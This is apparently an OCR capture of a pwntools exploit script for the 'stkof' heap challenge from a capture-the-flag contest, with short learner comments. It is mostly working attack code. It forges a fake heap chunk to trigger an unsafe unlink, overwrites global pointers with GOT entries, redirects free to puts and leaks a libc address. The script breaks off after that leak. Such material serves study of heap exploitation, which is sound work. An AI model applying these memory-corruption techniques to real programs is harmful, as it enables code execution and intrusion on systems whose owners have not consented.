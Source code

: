 ```
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")

log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')

head = 0x602140

def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')

def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')

def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    gdb.attach(p)
    # trigger to malloc buffer for io function
    alloc(0x100)  		# idx 1
    # begin
    alloc(0x30)  		# idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  		# idx 3
    # a fake chunk at global[2] = head + 16 who's size is 0x20
    payload = p64(0)  		#prev_size
    payload += p64(0x20)  	#size --> except the first line, the rest two line is equal to 0x20?
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')
    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)        #0x30 is the front one whole size?
    # make it believe that prev chunk is free
    payload += p64(0x90)
    edit(2, len(payload), payload)
    # unlink fake chunk, so global[2] =&(global[2]) - 0x18 = head - 8
    free(3)
    p.recvuntil('OK\n')
    #gdb.attach(p)
    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(stkof.got['atoi'])
    edit(2, len(payload), payload)
    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    #free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
```